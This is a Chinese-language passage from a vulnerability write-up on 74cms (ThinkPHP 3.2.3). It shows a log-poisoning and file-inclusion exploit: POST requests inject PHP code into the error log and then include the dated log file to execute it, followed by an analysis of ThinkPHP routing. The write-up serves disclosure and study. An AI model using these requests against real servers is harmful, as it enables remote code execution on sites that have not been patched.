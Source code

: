 **0x05 漏洞复现**  

  
  

1.发送如下请求：

```
`http://[IP]/index.php?m=home&a=assign_resume_tpl``POST:``variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>`
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
  

2.查看日志会发现已经记录了错误  
位置：\phpstudy_pro\WWW\data\Runtime\Logs\Home  
  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  
3.包含日志

```
`http://[IP]/index.php?m=home&a=assign_resume_tpl``POST:``variable=1&tpl=data/Runtime/Logs/Home/20_12_12.log`
```

  

日志名称就是当天的年月日，直接包含即可  
  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**0x06 漏洞分析**  

  
  

**路由：**

74cms利用了thinkphp3.2.3进行构建，查看ThinkPHP\Conf\convention.php中的路由配置：

```
`/* 系统变量名称设置 */` `'VAR_MODULE'            =>  'm',     // 默认模块获取变量` `'VAR_ADDON'             =>  'addon',     // 默认的插件控制器命名空间变量` `'VAR_CONTROLLER'        =>  'c',    // 默认控制器获取变量` `'VAR_ACTION'            =>  'a',    // 默认操作获取变量` `'VAR_AJAX_SUBMIT'       =>  'ajax',  // 默认的AJAX提交变量` `'VAR_JSONP_HANDLER'     =>  'callback',` `'VAR_PATHINFO'          =>  's',    // 兼容模式PATHINFO获取变量，例如 ?s=/module/action/id/1 后面的参数取决于URL_PATHINFO_DEPR` `'VAR_TEMPLATE'          =>  't',    // 默认模板切换变` `'VAR_AUTO_STRING'       =>  false,  // 输入变量是否自动强制转换为字符串 如果开启则数组变量需要手动传入变量修饰符获取变量` `'HTTP_CACHE_CONTROL'    =>  'private',  // 网页缓存控制` `'CHECK_APP_DIR'         =>  true,       // 是否检查应用目录是否创建` `'FILE_UPLOAD_TYPE'      =>  'Local',    // 文件上传方式` `'DATA_CRYPT_TYPE'       =>  'Think',    // 数据加密方式`
```

  

调用控制器中的某个方法便可以使用如下请求形式：

```
?m=&c=&a=&variable1=&variable2=...
```

